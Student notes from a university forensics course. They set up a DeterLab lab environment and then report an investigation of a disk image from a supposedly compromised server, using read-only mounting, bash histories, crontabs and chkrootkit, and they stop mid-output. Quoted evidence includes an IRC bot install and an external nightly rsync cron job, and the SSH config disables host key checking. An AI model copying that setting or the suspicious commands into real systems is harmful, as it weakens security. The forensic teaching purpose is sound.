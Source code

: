 #+TITLE: Deterlab notes
#+AUTHOR: John Herrlin
#+EMAIL: jherrlin@gmail.com
#+DATE: <2017-02-18 Sat>

[[http://docs.deterlab.net/][Deterlabs Docs]]

[[http://docs.deterlab.net/core/deterlab-commands/][Deterlabs Commands Docs]]

[[https://www.isi.deterlab.net/file.php?file%3D/groups/LnuITSec/LnuITSec/284&mid%3D284][Assignment]]

* Assignment environment preparations
** SSH

   Generate a new key for the service.

   #+BEGIN_SRC sh
     ssh-keygen -t rsa -b 4096 -f ~/.ssh/deterlab
   #+END_SRC

   Add the *~/.ssh/deterlab.pub* key to your Deterlab profile using
   the web page. You find a link to the left in a yellow box.

   SSH have a config file that makes it easier to connect to services.
   If =~/.ssh/config= does not exists then create it and add:

   #+BEGIN_SRC text
     Host deterlab
          HostName users.isi.deterlab.net
          User <YOUR USERNAME>
          Protocol 2
          IdentityFile ~/.ssh/deterlab
          StrictHostKeyChecking no
          PubkeyAuthentication yes
          PasswordAuthentication no
   #+END_SRC

   To connect to the Deterlab "Bastion" environment use:

   #+BEGIN_SRC sh
     ssh deterlab
   #+END_SRC


** Start an environment

   Create a new environment named your username. The second command waits for the
   environment to be build and then enters it by SSH. When everything is finished you will
   get a question about adding a RSA fingerprint, say =yes=. *The second command can
   take some time to finish!* You should now see something like: =lnuitsaa@workbench:~$=,
   then you are on the node. The creation of a node only needs to be done once.
   You then swap in/out of that node, look at [[swapping]].

   #+BEGIN_SRC sh
     startexp -i -p LnuITSec -e $USER /share/education/ComputerForensics_UCLA/forensics.ns
     expwait -e LnuITSec,$USER active && ssh $(node_list -e LnuITSec,$USER)
   #+END_SRC


** Swapping
   <<swapping>>

   Swapping in and out of environments. The environment have a default time of 4 hours
   before it swaps out, i think this only happens if nothing is going on on the node. Then
   you need to swap in again.

*** In

    Set the node in swap state and join it as soon as it is ready. The environment take
    some time to start, at least some minutes. Use this command on the "Bastion".

   #+BEGIN_SRC sh
     swapexp -e LnuITSec,$USER in && expwait -e LnuITSec,$USER active && ssh $(node_list -e LnuITSec,$USER)
   #+END_SRC

*** Out

    When you are done working for the day, swap out and the resources can be used by
    someone else. This command should be used on the "Bastion".

   #+BEGIN_SRC sh
     swapexp -w -e LnuITSec,$USER out
   #+END_SRC

** Joining an ongoing session

   If the session is active you can join it with:

   #+BEGIN_SRC sh
     ssh $(node_list -e LnuITSec,$USER)
   #+END_SRC


** Useful
*** Show node state

    Show the state of a node.

    #+BEGIN_SRC sh
      expinfo -n -e LnuITSec,$USER
    #+END_SRC

*** List all the files belonging to us, OPTIONAL

    #+BEGIN_SRC sh
      ls -lR /proj/LnuITSec/
    #+END_SRC


*** Install Emacs 25.1 on Ubuntu 10.04, OPTIONAL

    Download and transfer the *emacs-25.1.tar.xz* to the node. The node doesn't have
    internet access so use =scp= or =sftp= from your local computer.

    #+BEGIN_SRC sh
      sudo apt-get install build-essential checkinstall
      sudo apt-get install libncurses5
      sudo apt-get install libncurses-dev
      sudo apt-get build-dep emacs23
      tar xf emacs-25.1.tar.xz
      cd emacs-25.1
      ./configure --without-x
      make
    #+END_SRC

    Add to =~/.profile=

    #+BEGIN_SRC sh
    alias emacs25='~/./emacs-25.1/src/emacs'
    #+END_SRC

    You can now use Emacs 25 by:

    #+BEGIN_SRC sh
    emacs25
    #+END_SRC

*** =~/.profile=, OPTIONAL

    Useful alias.

    #+BEGIN_SRC sh
      alias l='ls -lhaF'
      alias rm='rm -i'
      alias mv='mv -i'
      alias join='ssh $(node_list -e LnuITSec,$USER)'
      alias swapout='swapexp -w -e LnuITSec,$USER out'
      alias swapin='yes | swapexp -e LnuITSec,$USER in && expwait -e LnuITSec,$USER active && ssh $(node_list -e LnuITSec,$USER)'
    #+END_SRC

** Removing the environment

   *This will destroy the environment completely!* All* data that are on the node will be
   deleted. Use this when you are done with *all* of the assignments.

   #+BEGIN_SRC sh
   endexp -w -e LnuITSec,$USER
   #+END_SRC

** Dumps

   https://staff.washington.edu/dittrich/misc/forensics/

   #+BEGIN_SRC sh
sudo grep -ir breakin /var/log/*
sudo grep -ir attempt /var/log/*
sudo grep -ir login /var/log/*
   #+END_SRC

* Assignment tools preparation
  :PROPERTIES:
  :export:   both
  :results:  drawer
  :END:

** Download an image

  Download the act1 assignemnt and check sha hash.

  #+BEGIN_SRC sh
    cd /images
    sudo ./loadimage.sh act1.img
    sha256sum act1.img
  #+END_SRC

  #+RESULTS:
  :RESULTS:
  Loading image. Please wait...
  Decompressing image. Please wait...
  Done.
  cfea531176f4f2c5aa0adff18d93bacb9ec6f0d5edc572bb5719db79f7aaa4a5  act1.img
  :END:

** Examin the image.

  Examin the =/images/sda1= image that was loaded.

  #+BEGIN_SRC sh
    file /images/act1.img
    fdisk -lu /images/act1.img
  #+END_SRC

  #+RESULTS:
  :RESULTS:
  /images/act1.img: x86 boot sector; GRand Unified Bootloader, stage1
  version 0x3, stage2 address 0x2000, stage2 segment 0x200; partition
  1: ID=0x83, active, starthead 1, startsector 63, 3887667 sectors;
  partition 2: ID=0x5, starthead 0, startsector 3887730, 305235
  sectors, code offset 0x48

  Disk /images/act1.img: 0 MB, 0 bytes
  255 heads, 63 sectors/track, 0 cylinders, total 0 sectors
  Units = sectors of 1 * 512 = 512 bytes
  Sector size (logical/physical): 512 bytes / 512 bytes
  I/O size (minimum/optimal): 512 bytes / 512 bytes
  Disk identifier: 0x00078752

	     Device Boot      Start         End      Blocks   Id  System
  /images/act1.img1   *          63     3887729     1943833+  83  Linux
  /images/act1.img2         3887730     4192964      152617+   5  Extended
  /images/act1.img5         3887793     4192964      152586   82  Linux swap / Solaris
  :END:

  Here is a table with the offsets that is found on the disk.

  | Parition  |   Start |  512 Start |
  | act1.img1 |      63 |      32256 |
  | act1.img2 | 3887730 | 1990517760 |
  | act1.img5 | 3887793 | 1990550016 |
  #+TBLFM: $3=$2*512

** Mount a loop image.

  Mount the first "loop0" to =/images/sda1=, this is the file system to examin.


  #+BEGIN_SRC sh
    sudo losetup /dev/loop0 /images/act1.img -o 32256
    sudo mount /dev/loop0 /images/sda1 -t ext2 -o ro
    df -Th | grep /images/sda1
    ls -la /images/sda1
  #+END_SRC

** Search for deleted files on Ext2.

  Searching for deleted files on a Ext2 disk.

  #+BEGIN_SRC sh
    sudo e2undel -d /dev/loop0 -s /images/recovered -a -tw
  #+END_SRC

** Umount a loop device.

  Umount sda1 and loop0

  #+BEGIN_SRC sh
  sudo umount /images/sda1
  sudo losetup -d /dev/loop0
  #+END_SRC

  #+RESULTS:

** Strings

   =strings=, "print the strings of printable characters in files."

   #+BEGIN_SRC sh
     strings /var/log/wtmp
   #+END_SRC

   #+RESULTS:
   :RESULTS:
   pts/1
   ts/1lnuitsac
   users.isi.deterlab.net
   :END:

** Check for rootkits
*** Install =chkrootkit=

    In our case the application is already extracted.

    #+BEGIN_SRC sh
      cd /images/chkrootkit-0.47
      ls -la
    #+END_SRC

    #+RESULTS:
    :RESULTS:
    total 688
    drwxr-xr-x 2 root root   4096 2017-02-23 07:31 .
    drwxr-xr-x 6 root root   4096 2007-09-15 10:54 ..
    -r--r-xr-- 1 root root   3596 2017-02-23 07:31 ACKNOWLEDGMENTS
    -rwxr-xr-x 1 root root   2824 2017-02-23 07:31 check_wtmpx
    -r--r-xr-- 1 root root   7195 2017-02-23 07:31 check_wtmpx.c
    -rwxr-xr-x 1 root root   6176 2017-02-23 07:31 chkdirs
    -r--r-xr-- 1 root root   6942 2017-02-23 07:31 chkdirs.c
    -rwxr-xr-x 1 root root   6676 2017-02-23 07:31 chklastlog
    -r--r-xr-- 1 root root   7730 2017-02-23 07:31 chklastlog.c
    -rwxr-xr-x 1 root root   7340 2017-02-23 07:31 chkproc
    -r--r-xr-- 1 root root   9601 2017-02-23 07:31 chkproc.c
    -rwxr-xr-x 1 root root  73352 2017-02-23 07:31 chkrootkit
    -r--r-xr-- 1 root root    582 2017-02-23 07:31 chkrootkit.lsm
    -rwxr-xr-x 1 root root   5928 2017-02-23 07:31 chkutmp
    -r--r-xr-- 1 root root   5538 2017-02-23 07:31 chkutmp.c
    -rwxr-xr-x 1 root root   4056 2017-02-23 07:31 chkwtmp
    -r--r-xr-- 1 root root   2213 2017-02-23 07:31 chkwtmp.c
    -r--r-xr-- 1 root root   1343 2017-02-23 07:31 COPYRIGHT
    -rwxr-xr-x 1 root root   6880 2017-02-23 07:31 ifpromisc
    -r--r-xr-- 1 root root   8814 2017-02-23 07:31 ifpromisc.c
    -r--r-xr-- 1 root root   1636 2017-02-23 07:31 Makefile
    -r--r-xr-- 1 root root  13755 2017-02-23 07:31 README
    -r--r-xr-- 1 root root   1323 2017-02-23 07:31 README.chklastlog
    -r--r-xr-- 1 root root   1292 2017-02-23 07:31 README.chkwtmp
    -r--r-xr-- 1 root root   2437 2017-02-23 07:31 strings.c
    -rwxr-xr-x 1 root root 456540 2017-02-23 07:31 strings-static
    :END:

*** Usage

    #+BEGIN_SRC sh

      chkrootkit -r root_directory (where root_directory is the mounted disk image)
    #+END_SRC

* Forensic Report Act 1: The University Server
  :PROPERTIES:
  :exports:  both
  :results:  value org
  :author:   John Herrlin
  :email:    jh222jx@student.lnu.se
  :END:
  #+TITLE: Forensic Report Act 1
  #+DATE: <2007-09-15 Sat>
  #+AUTHOR: John Herrlin
  #+EMAIL: jh222jx@student.lnu.se

** Executive summary

   Bob, a professor of Computer Science at some big school in The
   City. He got an angry email from the Network Operations Center
   (NOC) at the University saying that his lab's server was infected
   with a worm -- the NOC determined this because of a huge spike in
   Internet traffic which occurred at 4 in the morning. He immediately
   shut it down and brought it in to be imaged. He doesn't think it
   was infected, but the University wants independent confirmation
   before they will put it back online. Bob told you that the machine
   was just being installed; there were hardly any files on it except
   for his own account 'bob' and some student accounts 'eric',
   'kevin', 'peter' and 'takeda'.

** Methodology
*** Download image

  Download the act1 assignemnt and check SHA hash.

  Commands:

  #+BEGIN_SRC sh
    cd /images
    sudo ./loadimage.sh act1.img
    sha256sum act1.img
  #+END_SRC

  Results:

  #+BEGIN_SRC org
  Loading image. Please wait...
  Decompressing image. Please wait...
  Done.
  cfea531176f4f2c5aa0adff18d93bacb9ec6f0d5edc572bb5719db79f7aaa4a5  act1.img
  #+END_SRC

*** Examin the image.

  Examin the =/images/sda1= image that was loaded. The reason to do
  this is to verify the offsetsto the partitions.

  Commands:

  #+BEGIN_SRC sh
    file /images/act1.img
    fdisk -lu /images/act1.img
  #+END_SRC

  Results:

  #+BEGIN_SRC org
    /images/act1.img: x86 boot sector; GRand Unified Bootloader, stage1
    version 0x3, stage2 address 0x2000, stage2 segment 0x200; partition 1:
    ID=0x83, active, starthead 1, startsector 63, 3887667 sectors;
    partition 2: ID=0x5, starthead 0, startsector 3887730, 305235 sectors,
    code offset 0x48

    Disk /images/act1.img: 0 MB, 0 bytes
    255 heads, 63 sectors/track, 0 cylinders, total 0 sectors
    Units = sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disk identifier: 0x00078752

               Device Boot      Start         End      Blocks   Id  System
    /images/act1.img1   *          63     3887729     1943833+  83  Linux
    /images/act1.img2         3887730     4192964      152617+   5  Extended
    /images/act1.img5         3887793     4192964      152586   82  Linux swap / Solaris
  #+END_SRC

  Here is a table with the offsets that is found on the disk.  We can
  see that there is three paritions on the disk.

  | Parition  |   Start |     Offset |
  |-----------+---------+------------|
  | act1.img1 |      63 |      32256 |
  | act1.img2 | 3887730 | 1990517760 |
  | act1.img5 | 3887793 | 1990550016 |
  #+TBLFM: $3=$2*512

*** Mount a loop image.

  Mount the first "loop0" to =/images/sda1=, this is the file system
  to examin.  This disk should be the root disk where users and
  systems is. The partition is mounted as read only.

  Commands:

  #+BEGIN_SRC sh
    sudo losetup /dev/loop0 /images/act1.img -o 32256
    sudo mount /dev/loop0 /images/sda1 -t ext2 -o ro
    df -Th | grep /images/sda1
    ls -la /images/sda1
  #+END_SRC

  Results:

  #+BEGIN_SRC org
  /dev/loop0    ext2    1.9G  1.4G  407M  78% /images/sda1
  total 104
  drwxr-xr-x 21 root root  4096 2010-01-04 08:55 .
  drwxr-xr-x  6 root root  4096 2007-09-15 11:34 ..
  drwxr-xr-x  2 root root  4096 2009-09-12 19:03 bin
  drwxr-xr-x  3 root root  4096 2009-09-12 19:12 boot
  lrwxrwxrwx  1 root root    11 2009-09-12 18:34 cdrom -> media/cdrom
  drwxr-xr-x  4 root root  4096 2009-09-12 18:44 dev
  drwxr-xr-x 82 root root  4096 2010-01-04 09:00 etc
  drwxr-xr-x  7 root root  4096 2010-01-04 08:55 home
  lrwxrwxrwx  1 root root    33 2009-09-12 18:48 initrd.img -> boot/initrd.img-2.6.28-15-generic
  drwxr-xr-x 17 root root 12288 2009-12-23 19:28 lib
  drwx------  2 root root 16384 2009-09-12 18:34 lost+found
  drwxr-xr-x  4 root root  4096 2009-09-12 18:34 media
  drwxr-xr-x  2 root root  4096 2009-04-13 02:33 mnt
  drwxr-xr-x  2 root root  4096 2009-09-12 18:42 opt
  drwxr-xr-x  2 root root  4096 2009-04-13 02:33 proc
  drwx------  3 root root  4096 2010-01-04 09:42 root
  drwxr-xr-x  2 root root  4096 2009-12-23 19:28 sbin
  drwxr-xr-x  2 root root  4096 2009-03-06 08:21 selinux
  drwxr-xr-x  2 root root  4096 2009-09-12 18:42 srv
  drwxr-xr-x  2 root root  4096 2009-03-31 02:02 sys
  drwxrwxrwt  4 root root  4096 2010-01-04 08:58 tmp
  drwxr-xr-x 11 root root  4096 2009-09-12 19:01 usr
  drwxr-xr-x 15 root root  4096 2009-09-12 19:03 var
  lrwxrwxrwx  1 root root    30 2009-09-12 18:48 vmlinuz -> boot/vmlinuz-2.6.28-15-generic
  #+END_SRC

*** Get operating system

    What operating system are the examining host running.

    Commands:

    #+BEGIN_SRC sh
      sudo cat /images/sda1/etc/lsb-release
    #+END_SRC

    Results:

    #+BEGIN_SRC org
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=9.04
    DISTRIB_CODENAME=jaunty
    DISTRIB_DESCRIPTION="Ubuntu 9.04"
    #+END_SRC

*** Get time zone

    What time zone was configured to the host.

    Commands:

    #+BEGIN_SRC sh
     sudo cat /images/sda1/etc/timezone
    #+END_SRC

    Results:

    #+BEGIN_SRC org
    America/Los_Angeles
    #+END_SRC

*** Look for users

    Bob told us that there is some accounts on the system.
    'bob', 'eric', 'kevin', 'peter' and 'takeda'.

    Commands:

    #+BEGIN_SRC sh
      cd /images/sda1
      ls -la home/
    #+END_SRC

    Results:

    #+BEGIN_SRC org
    total 28
    drwxr-xr-x  7 root  root 4096 2010-01-04 08:55 .
    drwxr-xr-x 21 root  root 4096 2010-01-04 08:55 ..
    drwxr-xr-x  2 tuser 1000 4096 2010-01-04 09:00 bob
    drwxr-xr-x  2  1004 1004 4096 2010-01-04 08:56 eric
    drwxr-xr-x  5  1003 1003 4096 2010-01-04 08:56 kevin
    drwxr-xr-x  2  1001 1001 4096 2010-01-04 08:55 peter
    drwxr-xr-x  3  1002 1002 4096 2010-01-04 08:58 takeda
    #+END_SRC


    Looks like all of them are there.
    But =bob= have strange owner permissions. Who is =tuser=?

    How about with =passwd=?

    Commands:

    #+BEGIN_SRC sh
     cat /images/sda1/etc/passwd
    #+END_SRC

    Results:

    #+BEGIN_SRC org
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh
    bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh
    syslog:x:101:102::/home/syslog:/bin/false
    klog:x:102:103::/home/klog:/bin/false
    mysql:x:103:105:MySQL Server,,,:/var/lib/mysql:/bin/false
    sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
    messagebus:x:105:111::/var/run/dbus:/bin/false
    landscape:x:106:65534::/var/lib/landscape:/bin/false
    bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
    peter:x:1001:1001::/home/peter:/bin/bash
    takeda:x:1002:1002::/home/takeda:/bin/bash
    kevin:x:1003:1003::/home/kevin:/bin/bash
    eric:x:1004:1004::/home/eric:/bin/bash
    #+END_SRC

    Look at the users home dirs.

    Commands:

    #+BEGIN_SRC sh
     sudo find /images/sda1/home -maxdepth 2 -name "*"
    #+END_SRC

    Results:

    #+BEGIN_SRC org
    /images/sda1/home
    /images/sda1/home/bob
    /images/sda1/home/bob/.profile
    /images/sda1/home/bob/.bash_logout
    /images/sda1/home/bob/.bashrc
    /images/sda1/home/bob/.sudo_as_admin_successful
    /images/sda1/home/bob/.bash_history
    /images/sda1/home/peter
    /images/sda1/home/peter/.profile
    /images/sda1/home/peter/.bash_logout
    /images/sda1/home/peter/.bashrc
    /images/sda1/home/takeda
    /images/sda1/home/takeda/.profile
    /images/sda1/home/takeda/.bash_logout
    /images/sda1/home/takeda/.bashrc
    /images/sda1/home/takeda/.bash_history
    /images/sda1/home/takeda/eggdrop
    /images/sda1/home/takeda/eggdrop1.6.19+ctcpfix.tar.gz
    /images/sda1/home/kevin
    /images/sda1/home/kevin/.profile
    /images/sda1/home/kevin/.bash_logout
    /images/sda1/home/kevin/.bashrc
    /images/sda1/home/kevin/music
    /images/sda1/home/kevin/.bash_history
    /images/sda1/home/kevin/.ssh
    /images/sda1/home/kevin/links
    /images/sda1/home/eric
    /images/sda1/home/eric/.profile
    /images/sda1/home/eric/.bash_logout
    /images/sda1/home/eric/.bashrc
    /images/sda1/home/eric/.bash_history
    #+END_SRC

*** Users bash history

    Look into their =.bash_history=

**** Bob

     Commands:

     #+BEGIN_SRC sh
      sudo cat /images/sda1/home/bob/.bash_history
     #+END_SRC

     Results:

     #+BEGIN_SRC org
     sudo shutdown -h now
     #+END_SRC

**** Peter

     Have no bash history

**** Takeda

     Commands:

     #+BEGIN_SRC sh
      sudo cat /images/sda1/home/takeda/.bash_history
     #+END_SRC

     Results:

     #+BEGIN_SRC org
     uptime
     uname -a
     fgrep takeda /etc/passwd
     ifconfig
     irssi
     logout
     tar xzf eggdrop1.6.19+ctcpfix.tar.gz
     cd eggdrop1.6.19
     ./configure
     make config
     make
     make install
     cd ..
     find eggdrop1.6.19 -delete
     logout
     #+END_SRC

**** Kevin
     <<kevinbashhistory>>

     Commands:

     #+BEGIN_SRC sh
      sudo cat /images/sda1/home/kevin/.bash_history
     #+END_SRC

     Results:

     #+BEGIN_SRC org
     mkdir music
     logout
     w
     id
     ls -al
     cd music
     ls
     cd ..
     crontab -l
     echo "0 4 * * * rsync -aq --del --rsh="ssh" -e "ssh -l kevin" "kevin.dynip.com:My_Music/" \
     "~/music"" | crontab -
     crontab -l
     ps x
     ssh-keygen
     cat .ssh/id_rsa.pub
     logout
     mkdir links
     cd links
     find ../music -exec ln -s {} \;
     ls
     logout
     cd links
     ls -l
     rm *.gif
     ls -l
     rm README
     logout
     #+END_SRC

     Commands:

     #+BEGIN_SRC sh
      sudo cat /images/sda1/var/spool/cron/crontabs/kevin
     #+END_SRC

     Results:

     #+BEGIN_SRC org
     # DO NOT EDIT THIS FILE - edit the master and reinstall.
     # (- installed on Mon Jan  4 08:56:07 2010)
     # (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
     0 4 * * * rsync -aq --del --rsh=ssh -e ssh -l kevin kevin.dynip.com:My_Music/ ~/music
     #+END_SRC

**** Eric

     Commands:

     #+BEGIN_SRC sh
      sudo cat /images/sda1/home/eric/.bash_history
     #+END_SRC

     Results:

     #+BEGIN_SRC org
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     mutt
     logout
     #+END_SRC

*** Look at Kevins music
    <<kevinsmusic>>

    Commands:

    #+BEGIN_SRC sh
      du -h /images/sda1/home/kevin/music
    #+END_SRC

    Results:

    #+BEGIN_SRC org
    280M	/images/sda1/home/kevin/music
    #+END_SRC

*** Look for log files

    List log files

    Commands:

    #+BEGIN_SRC sh
     ls -R /images/sda1/var/log | \
     awk '/:$/&&f{s=$0;f=0} /:$/&&!f{sub(/:$/,"");s=$0;f=1;next} NF&&f{ print s"/"$0 }' | \
     sort
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC org
    /images/sda1/var/log/auth.log
    /images/sda1/var/log/daemon.log
    /images/sda1/var/log/debug
    /images/sda1/var/log/dmesg
    /images/sda1/var/log/exim
    /images/sda1/var/log/faillog
    /images/sda1/var/log/installer.log
    /images/sda1/var/log/installer.timings
    /images/sda1/var/log/kern.log
    /images/sda1/var/log/ksymoops
    /images/sda1/var/log/ksymoops/20070909.log
    /images/sda1/var/log/ksymoops/20070910025202.ksyms
    /images/sda1/var/log/ksymoops/20070910025202.modules
    /images/sda1/var/log/ksymoops/20070910025214.ksyms
    /images/sda1/var/log/ksymoops/20070910025214.modules
    /images/sda1/var/log/ksymoops/20070910025617.ksyms
    /images/sda1/var/log/ksymoops/20070910025617.modules
    /images/sda1/var/log/ksymoops/20070910043141.ksyms
    /images/sda1/var/log/ksymoops/20070910043141.modules
    /images/sda1/var/log/ksymoops/20070910.log
    /images/sda1/var/log/lastlog
    /images/sda1/var/log/lp-acct
    /images/sda1/var/log/lp-errs
    /images/sda1/var/log/lpr.log
    /images/sda1/var/log/mail.err
    /images/sda1/var/log/mail.info
    /images/sda1/var/log/mail.log
    /images/sda1/var/log/mail.warn
    /images/sda1/var/log/messages
    /images/sda1/var/log/news
    /images/sda1/var/log/news/news.crit
    /images/sda1/var/log/news/news.err
    /images/sda1/var/log/news/news.notice
    /images/sda1/var/log/syslog
    /images/sda1/var/log/user.log
    /images/sda1/var/log/uucp.log
    /images/sda1/var/log/wtmp
    #+END_SRC

*** Look for tmp files

    Commands:

    #+BEGIN_SRC sh
      ls -la /images/sda1/tmp/
    #+END_SRC

    Results:

    #+BEGIN_SRC org
    total 16
    drwxrwxrwt  4 root root 4096 2010-01-04 08:58 .
    drwxr-xr-x 21 root root 4096 2010-01-04 08:55 ..
    drwxrwxrwt  2 root root 4096 2010-01-04 08:55 .ICE-unix
    drwxrwxrwt  2 root root 4096 2010-01-04 08:55 .X11-unix
    #+END_SRC

*** Check for rootkits
    <<chkrootkit>>

    Commands:

    #+BEGIN_SRC sh
      cd /images/chkrootkit-0.47
      sudo ./chkrootkit -r /images/sda1/
    #+END_SRC

    Results:

    #+BEGIN_SRC org
    ROOTDIR is `/images/sda1/'
    Checking `amd'... not found
    Checking `basename'... not infected
    Checking `biff'... not found
    Checking `chfn'... not infected
    Checking `chsh'... not infected
    Checking `cron'... not infected
    Checking `crontab'... not infected
    Checking `date'... not infected
    Checking `du'... not infected
    Checking `dirname'... not infected
    Checking `echo'... not infected
    Checking `egrep'... not infected
    Checking `env'... not infected
    Checking `find'... not infected
    Checking `fingerd'... not found
    Checking `gpm'... not found
    Checking `grep'... not infected
    Checking `hdparm'... not infected
    Checking `su'... not infected
    Checking `ifconfig'... not infected
    Checking `inetd'... not infected
    Checking `inetdconf'... not found
    Checking `identd'... not found
    Checking `init'... not infected
    Checking `killall'... not infected
    Checking `ldsopreload'... not infected
    Checking `login'... not infected
    Checking `ls'... not infected
    Checking `lsof'... not infected
    Checking `mail'... not found
    Checking `mingetty'... not found
    Checking `netstat'... not infected
    Checking `named'... not found
    Checking `passwd'... not infected
    Checking `pidof'... not infected
    Checking `pop2'... not found
    Checking `pop3'... not found
    Checking `ps'... not infected
    Checking `pstree'... not infected
    Checking `rpcinfo'... not infected
    Checking `rlogind'... not found
    Checking `rshd'... not found
    Checking `slogin'... not infected
    Checking `sendmail'... not found
    Checking `sshd'... not infected
    Checking `syslogd'... not infected
    Checking `tar'... not infected
    Checking `tcpd'... not infected
    Checking `tcpdump'... not infected
    Checking `top'... not infected
    Checking `telnetd'... not found
    Checking `timed'... not found
    Checking `traceroute'... not found
    Checking `vdir'... not infected
    Checking `w'... not infected
    Checking `write'... not infected
    Checking `aliens'... no suspect files
    Searching for sniffer's logs, it may take a while... nothing found
    Searching for HiDrootkit's default dir... nothing found
    Searching for t0rn's default files and dirs... nothing found
    Searching for t0rn's v8 defaults... nothing found
    Searching for Lion Worm default files and dirs... nothing found
    Searching for RSHA's default files and dir... nothing found
    Searching for RH-Sharpe's default files... nothing found
    Searching for Ambient's rootkit (ark) default files and dirs... nothing found
    Searching for suspicious files and dirs, it may take a while... nothing found
    Searching for LPD Worm files and dirs... nothing found
    Searching for Ramen Worm files and dirs... nothing found
    Searching for Maniac files and dirs... nothing found
    Searching for RK17 files and dirs... nothing found
    Searching for Ducoci rootkit... nothing found
    Searching for Adore Worm... nothing found
    Searching for ShitC Worm... nothing found
    Searching for Omega Worm... nothing found
    Searching for Sadmind/IIS Worm... nothing found
    Searching for MonKit... nothing found
    Searching for Showtee... nothing found
    Searching for OpticKit... nothing found
    Searching for T.R.K... nothing found
    Searching for Mithra... nothing found
    Searching for OBSD rk v1... nothing found
    Searching for LOC rootkit... nothing found
    Searching for Romanian rootkit... nothing found
    Searching for Suckit rootkit... nothing found
    Searching for Volc rootkit... nothing found
    Searching for Gold2 rootkit... nothing found
    Searching for TC2 Worm default files and dirs... nothing found
    Searching for Anonoying rootkit default files and dirs... nothing found
    Searching for ZK rootkit default files and dirs... nothing found
    Searching for ShKit rootkit default files and dirs... nothing found
    Searching for AjaKit rootkit default files and dirs... nothing found
    Searching for zaRwT rootkit default files and dirs... nothing found
    Searching for Madalin rootkit default files... nothing found
    Searching for Fu rootkit default files... nothing found
    Searching for ESRK rootkit default files... nothing found
    Searching for rootedoor... nothing found
    Searching for ENYELKM rootkit default files... nothing found
    Searching for anomalies in shell history files... nothing found
    Checking `asp'... not infected
    Checking `bindshell'... not tested
    Checking `lkm'... chkproc: not tested
    Checking `rexedcs'... not found
    Checking `sniffer'... not tested
    Checking `w55808'... not infected
    Checking `wted'... chkwtmp: nothing deleted
    Checking `scalper'... not infected
    Checking `slapper'... not infected
    Checking `z2'... chklastlog: nothing deleted
    Checking `chkutmp'...  The tty of the following user process(es) were not found
     in /var/run/utmp !
